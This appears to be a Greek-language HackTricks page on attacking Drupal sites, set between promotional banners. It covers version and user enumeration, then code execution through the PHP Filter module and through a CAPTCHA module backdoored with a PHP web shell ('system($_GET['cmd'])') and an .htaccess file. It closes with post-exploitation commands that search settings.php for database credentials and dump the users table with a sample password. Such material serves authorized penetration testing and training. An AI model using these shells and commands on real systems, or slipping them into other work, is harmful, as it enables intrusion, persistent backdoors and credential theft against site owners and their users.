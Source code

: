 # Drupal

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του GitHub.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Ανακάλυψη

* Ελέγξτε τα **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Κόμβος**: Το Drupal **ευρετηριάζει το περιεχόμενό του χρησιμοποιώντας κόμβους**. Ένας κόμβος μπορεί να **περιέχει οτιδήποτε** όπως μια ανάρτηση σε ιστολόγιο, δημοσκόπηση, άρθρο, κλπ. Οι URI των σελίδων είναι συνήθως της μορφής `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Απαρίθμηση

Το Drupal υποστηρίζει **τρεις τύπους χρηστών** από προεπιλογή:

1. **`Διαχειριστής`**: Αυτός ο χρήστης έχει πλήρη έλεγχο του ιστότοπου του Drupal.
2. **`Εξουσιοδοτημένος Χρήστης`**: Αυτοί οι χρήστες μπορούν να συνδεθούν στον ιστότοπο και να εκτελέσουν λειτουργίες όπως προσθήκη και επεξεργασία άρθρων βάσει των δικαιωμάτων τους.
3. **`Ανώνυμος`**: Όλοι οι επισκέπτες του ιστότοπου θεωρούνται ανώνυμοι. Από προεπιλογή, αυτοί οι χρήστες επιτρέπεται μόνο να διαβάζουν αναρτήσεις.

### Έκδοση

* Ελέγξτε το `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Οι νεότερες εγκαταστάσεις του Drupal από προεπιλογή αποκλείουν την πρόσβαση στα αρχεία `CHANGELOG.txt` και `README.txt`.
{% endhint %}

### Απαρίθμηση ονομάτων χρηστών

#### Εγγραφή

Στο _/user/register_ απλά προσπαθήστε να δημιουργήσετε ένα όνομα χρήστη και αν το όνομα είναι ήδη κατειλημμένο θα ενημερωθείτε:

![](<../../.gitbook/assets/image (325).png>)

#### Αίτηση νέου κωδικού πρόσβασης

Αν ζητήσετε ένα νέο κωδικό πρόσβασης για ένα υπάρχον όνομα χρήστη:

![](<../../.gitbook/assets/image (900).png>)

Αν ζητήσετε ένα νέο κωδικό πρόσβασης για ένα μη υπάρχον όνομα χρήστη:

![](<../../.gitbook/assets/image (304).png>)

### Λήψη αριθμού χρηστών

Με την πρόσβαση στο _/user/\<number>_ μπορείτε να δείτε τον αριθμό των υπαρχόντων χρηστών, σε αυτήν την περίπτωση είναι 2 καθώς το _/users/3_ επιστρέφει σφάλμα μη εύρεσης:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Κρυφές σελίδες

**Αναζητήστε `/node/$` όπου `$` είναι ένας αριθμός** (από 1 έως 500 για παράδειγμα).\
Μπορείτε να βρείτε **κρυφές σελίδες** (δοκιμή, ανάπτυξη) οι οποίες δεν αναφέρονται από τις μηχανές αναζήτησης.

#### Πληροφορίες εγκατεστημένων ενοτήτων
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Αυτόματο
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Με το Πρόσθετο PHP Filter

{% hint style="warning" %}
Σε παλαιότερες εκδόσεις του Drupal **(πριν την έκδοση 8)**, ήταν δυνατό να συνδεθείτε ως διαχειριστής και **να ενεργοποιήσετε το πρόσθετο `PHP filter`**, το οποίο "Επιτρέπει την αξιολόγηση ενσωματωμένου κώδικα PHP/αποσπασμάτων."
{% endhint %}

Χρειάζεστε το **πρόσθετο php να είναι εγκατεστημένο** (ελέγξτε τον έλεγχο πρόσβασης στο _/modules/php_ και αν επιστρέφει **403** τότε, **υπάρχει**, αν **δεν βρέθηκε**, τότε το **πρόσθετο php δεν είναι εγκατεστημένο**)

Πηγαίνετε σε _Πρόσθετα_ -> (**Ελέγξτε**) _PHP Filter_ -> _Αποθηκεύστε τη διαμόρφωση_

![](<../../.gitbook/assets/image (247) (1).png>)

Στη συνέχεια κάντε κλικ στο _Προσθήκη περιεχομένου_ -> Επιλέξτε _Βασική Σελίδα_ ή _Άρθρο_ -> Γράψτε _κώδικα php shell_ στο σώμα -> Επιλέξτε _Κώδικα PHP_ στη μορφή _Κειμένου_ -> Επιλέξτε _Προεπισκόπηση_

![](<../../.gitbook/assets/image (335).png>)

Τέλος, απλά αποκτήστε πρόσβαση στο νεοδημιουργημένο κόμβο:
```bash
curl http://drupal-site.local/node/3
```
### Εγκατάσταση του Πρόσθετου PHP Filter

Από την έκδοση **8 και μετά, το** [**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **δεν εγκαθίσταται από προεπιλογή**. Για να επωφεληθούμε από αυτήν τη λειτουργικότητα, θα πρέπει **να εγκαταστήσουμε το πρόσθετο μόνοι μας**.

1. Κατεβάστε την πιο πρόσφατη έκδοση του πρόσθετου από την ιστοσελίδα του Drupal.
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. Αφού γίνει η λήψη, πηγαίνετε σε **`Διαχείριση`** > **`Αναφορές`** > **`Διαθέσιμες ενημερώσεις`**.
4. Κάντε κλικ στο **`Περιήγηση`**, επιλέξτε το αρχείο από τον κατάλογο που το κατεβάσατε, και στη συνέχεια κάντε κλικ στο **`Εγκατάσταση`**.
5. Αφού εγκατασταθεί το πρόσθετο, μπορούμε να κάνουμε κλικ στο **`Περιεχόμενο`** και **να δημιουργήσουμε μια νέα βασική σελίδα**, παρόμοια με τον τρόπο που κάναμε στο παράδειγμα του Drupal 7. Ξανά, βεβαιωθείτε ότι **επιλέγετε `Κώδικα PHP` από την αναπτυσσόμενη λίστα `Μορφοποίηση κειμένου`**.

### Πρόσθετο με Παρασκευασμένη Πίσω Πόρτα

Ένα πρόσθετο με παρασκευασμένη πίσω πόρτα μπορεί να δημιουργηθεί **προσθέτοντας ένα κέλυφος σε ένα υπάρχον πρόσθετο**. Τα πρόσθετα μπορούν να βρεθούν στην ιστοσελίδα drupal.org. Ας επιλέξουμε ένα πρόσθετο όπως το [CAPTCHA](https://www.drupal.org/project/captcha). Κύλισε προς τα κάτω και αντέγραψε τον σύνδεσμο για το tar.gz [αρχείο](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Κατέβασε το αρχείο και εξάγετε το περιεχόμενό του.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Δημιουργήστε ένα **PHP web shell** με τα παρακάτω περιεχόμενα:
```php
<?php
system($_GET["cmd"]);
?>
```
* Επόμενο, πρέπει να δημιουργήσουμε ένα αρχείο **`.htaccess`** για να δώσουμε πρόσβαση στον εαυτό μας στον φάκελο. Αυτό είναι απαραίτητο επειδή το Drupal αρνείται την άμεση πρόσβαση στον φάκελο **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Η διαμόρφωση παραπάνω θα εφαρμόσει κανόνες για τον φάκελο / όταν ζητάμε ένα αρχείο στο /modules. Αντιγράψτε και τα δύο αρχεία αυτά στον φάκελο captcha και δημιουργήστε ένα αρχείο αρχειοθέτησης.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
*Υποθέτοντας ότι έχουμε **διαχειριστική πρόσβαση** στον ιστότοπο, κάντε κλικ στο **`Διαχείριση`** και στη συνέχεια στο **`Επέκταση`** στην πλαϊνή μπάρα. Στη συνέχεια, κάντε κλικ στο κουμπί **`+ Εγκατάσταση νέου πρόσθετου`**, και θα μας οδηγηθεί στη σελίδα εγκατάστασης, όπως το `http://drupal-site.local/admin/modules/install`. Περιηγηθείτε στο αρχείο Captcha με backdoor και κάντε κλικ στο **`Εγκατάσταση`**.
* Αφού η εγκατάσταση είναι επιτυχής, περιηγηθείτε στο **`/modules/captcha/shell.php`** για να εκτελέσετε εντολές.

## Μετά την Εκμετάλλευση

### Διαβάστε το settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Αδειάστε τους χρήστες από τη βάση δεδομένων
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Αναφορές

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα αποθετήρια του [**HackTricks**](https://github.com/carlospolop/hacktricks) και του [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
